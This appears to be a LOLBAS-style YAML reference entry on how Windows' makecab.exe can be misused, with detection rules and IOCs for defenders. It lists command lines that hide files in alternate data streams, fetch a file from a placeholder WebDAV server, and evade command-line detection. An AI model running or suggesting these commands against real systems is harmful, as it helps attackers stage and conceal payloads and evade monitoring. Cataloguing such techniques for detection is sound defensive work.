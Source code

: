 ```yaml
---
Name: Makecab.exe
Description: Binary to package existing files into a cabinet (.cab) file
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Download and compresses the target file and stores it in the target file.
    Usecase: Download file and compress into a cab file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: makecab /F directives.ddf
    Description: Execute makecab commands as defined in the specified Diamond Definition File (.ddf); see resources for the format specification.
    Usecase: Bypass command-line based detections
    Category: Execute
    Privileges: User
    MitreID: T1036
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
Full_Path:
  - Path: C:\Windows\System32\makecab.exe
  - Path: C:\Windows\SysWOW64\makecab.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_susp_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - IOC: Makecab retrieving files from Internet
  - IOC: Makecab storing data into alternate data streams
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://ss64.com/nt/makecab-directives.html
  - Link: https://www.pearsonhighered.com/assets/samplechapter/0/7/8/9/0789728583.pdf
  - Link: https://learn.microsoft.com/en-us/previous-versions/bb417343(v=msdn.10)#makecab-application
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


